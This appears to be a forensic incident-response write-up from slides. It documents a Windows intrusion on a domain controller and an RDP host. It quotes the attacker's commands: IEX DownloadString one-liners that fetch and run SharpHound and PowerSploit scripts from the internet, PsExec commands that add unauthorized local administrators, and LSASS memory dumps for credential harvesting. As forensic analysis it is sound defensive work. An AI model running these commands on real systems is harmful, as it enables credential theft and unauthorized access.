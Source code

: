 ## Slide 1 (DC & DC02)

* EventID 7045, Service Name: PSEXESVC demand start

* Evidence of PsExec (PSEXESVC) usage (Over 10 events at this time, first was the use of PSEXEC (EventID 12) under HLKM/System/CurrentControlSet\Services\PSEXESVC with (C:\Windows\PSEXEC-RDP01-903C33C0.key as EventID 11) left behind.

* Chainsaw
  - Creation of Local Admin (combosecurity)

---

## Slide 2 (RDP01)

* Hostile Files Identified

* C:\dump
  - **2022-02-19 20:48:46**: Process Dump via Rundll32 and Comsvcs.dll (Dumps LSASS for Cred Harvesting)
* C:\Users\brent.socium\Desktop\computers.txt
  - List of IP Addresses used to Add Unauthorized ID to local administrators group
  - **2022-02-19 21:12:58**: .\PsExec64.exe @C:\Users\pat.risus\Desktop\computers.txt net localgroup administrators combosecurity /ADD
* C:\Users\brent.socium\Desktop\3.txt
  - List of IP Addresses used to Add Unauthorized ID to local administrators group
  - **2022-02-19 21:19:03**: .\PsExec64.exe @C:\Users\brent.socium\Desktop\3.txt net localgroup administrators jimbo /ADD
* C:\Users\brent.socium\Desktop\2.txt
  - List of IP Addresses used to Add Unauthorized ID to local administrators group
  - **2022-02-19 21:19:46**: .\PsExec64.exe @C:\Users\brent.socium\Desktop\2.txt net localgroup administrators hass /ADD
* C:\Users\brent.socium\Desktop\1.txt
  - List of IP Addresses used to Add Unauthorized ID to local administrators group
  - **2022-02-19 21:21:25**: .\PsExec64.exe @C:\Users\brent.socium\Desktop\1.txt net localgroup administrator s andy /ADD
* C:\Users\pat.risus\Desktop\20220219201253_BloodHound.zip
  - Bloodhound (SharpHound.ps1) output: Computers, Domains, GPOs, Groups, OUs, Users
  - **Powershell History (PSReadLine)** iex (new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1') ; invoke-bloodhound -Collectionmethod dconly
  - **2022-02-19 20:12:55**: File Created ($MFT): \Users\pat.risus\Desktop\20220219201253_BloodHound.zip 
* C:\Users\PAT~1.RIS\AppData\Local\Temp\lsass.DMP
  - LSASS Memory Dump (Cred Harvesting)
  - **2022-02-19 20:47:03**: C:\Users\PAT~1.RIS\AppData\Local\Temp\lsass.DMP - C:\Windows\System32\Taskmgr.exe
* C:\Users\pat.risus\smbScan.gnmap
  - **AllFormatsOut**: Grepable NMAP
  - Output of: Invoke-Portscan.ps1 v0.13 scan
  - IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1'); invoke-portscan -hosts 172.16.50.0/24 -ports "445" -AllformatsOut smbScan
  - **2022-02-19 20:15:43**: SMBScan File Created ($MFT) -  C:\Users\pat.risus\smbScan.gnmap
* C:\Users\pat.risus\smbScan.nmap
  - **AllFormatsOut**: NMAP
  - Output of: Invoke-Portscan.ps1 v0.13
  - IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1'); invoke-portscan -hosts 172.16.50.0/24 -ports "445" -AllformatsOut smbScan
  - **2022-02-19 20:15:43**: SMBScan File Created ($MFT) -  C:\Users\pat.risus\smbScan.nmap
* C:\Users\pat.risus\smbScan.xml
  - **AllFormatsOut**: XML
  - Output of: Invoke-Portscan.ps1 v0.13 scan